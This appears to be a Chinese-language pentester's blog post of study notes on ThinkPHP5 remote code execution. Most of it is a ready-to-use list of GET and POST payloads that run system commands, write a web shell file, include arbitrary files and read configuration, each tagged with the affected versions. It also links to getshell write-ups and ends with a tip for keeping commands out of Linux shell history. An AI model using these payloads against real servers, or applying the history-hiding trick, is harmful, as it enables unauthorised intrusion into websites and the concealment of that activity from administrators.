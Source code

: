 title: 渗透学习笔记
author: bmth
tags:
  - 学习笔记
categories: []
img: 'https://img-blog.csdnimg.cn/20210304214146736.png'
date: 2020-10-27 19:28:00
---
## 杂知识点
### ThinkPHP5远程代码执行漏洞
本次漏洞存在于 ThinkPHP 底层没有对控制器名进行很好的合法性校验，导致在未开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致远程代码执行漏洞的产生
漏洞影响版本： 5.0.7<=ThinkPHP5<=5.0.22 、5.1.0<=ThinkPHP<=5.1.30

**5.1.x ：**
>?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=`<?php phpinfo();?>`
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=`<?php phpinfo();?>`
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

**5.0.x ：**
>?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

漏洞影响版本：5.0.0<=ThinkPHP5<=5.0.23 、5.1.0<=ThinkPHP<=5.1.30
>#ThinkPHP <= 5.0.13
POST /?s=index/index
s=whoami&_method=__construct&method=&filter[]=system
#ThinkPHP <= 5.0.23、5.1.0 <= 5.1.16 需要开启框架app_debug
POST /
_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al
#ThinkPHP <= 5.0.23 需要存在xxx的method路由，例如captcha
POST /?s=xxx HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=ls -al
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls


[某CMFX_2.2.3漏洞合集](https://xz.aliyun.com/t/3529)
[phpmyadmin getshell姿势](https://xz.aliyun.com/t/3283)

[Thinkphp6.0任意文件写入漏洞复现](https://xz.aliyun.com/t/8546)
[ThinkPHP6任意文件操作漏洞到GETSHELL](http://www.pdsdt.lovepdsdt.com/index.php/2020/05/15/thinkphp6-getshell/)
### shopxo后台全版本
[渗透测试|shopxo后台全版本获取shell复现](http://www.nctry.com/1660.html)

### 小技巧
linux在命令前加空格，history内查不到
![](https://img-blog.csdnimg.cn/20200802215047834.png)
